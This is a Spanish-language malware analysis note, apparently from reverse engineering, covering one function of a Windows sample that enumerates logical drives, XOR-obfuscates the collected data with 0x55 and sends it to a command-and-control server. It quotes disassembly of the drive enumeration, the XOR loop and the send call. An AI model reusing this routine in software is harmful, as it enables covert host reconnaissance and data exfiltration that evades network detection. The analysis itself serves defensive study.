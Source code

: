 # FUN_004018C0 - Opcode 1

La función FUN_004018c0 realiza una enumeración de unidades lógicas (discos) del sistema y recopila información sobre ellas, para enviarla a un servidor C2. También aplica una ofuscación con XOR a los datos recopilados antes de enviarlos mediante una llamada a WS2_32.DLL::Ordinal_19 (send()).



✅ Resumen funcional
- Obtiene las unidades lógicas del sistema (GetLogicalDrives).
- Para cada letra de unidad activa (A: a Z:):
    - Construye el nombre de la unidad (X:).
    - Consulta su tipo (GetDriveTypeA).
    - Llama a FUN_004034aa, para obtener info como volumen, espacio libre, etc.
- Construye una estructura de salida con los resultados.
- Ofusca con XOR 0x55 los primeros 256 bytes de datos.
- Envía los datos con WS2_32::Ordinal_19.


Construye nombre de unidad y obtiene tipo:
```
MOV CL, BL
ADD CL, 0x41             ; 'A' + index → letra de unidad
MOV [ESP+0x18], CL       ; X:
MOV [ESP+0x19], ':'      
MOV [ESP+0x1a], 0
CALL GetDriveTypeA       ; devuelve tipo: 2 = floppy, 3 = HDD, 5 = CD-ROM, etc.
```


Ofusca con XOR:
```
XOR BL, 0x55
MOV [ESP + offset], BL
INC EAX
CMP EAX, 0x100
JL repeat

```
Aplica XOR 0x55 sobre los 256 bytes del buffer de salida. Es una técnica común para evitar detección de contenido plano en la red o al escribir en disco.


Envía los datos:
```
PUSH 0
PUSH 0x100                         ; longitud
PUSH buffer + 0x28                ; datos (después del encabezado)
PUSH socket(?)                    ; puntero pasado como `param_1`
CALL Ordinal_19 (prob. send)
```

Esta función es parte de la fase de recolección de información (host enumeration) del malware. Se ejecuta para:
- Mapear las unidades del sistema.
- Obtener información sobre tipo de dispositivo y posiblemente contenido.
- Ofuscar el resultado.
- Enviarlo al servidor de comando y control (C2).
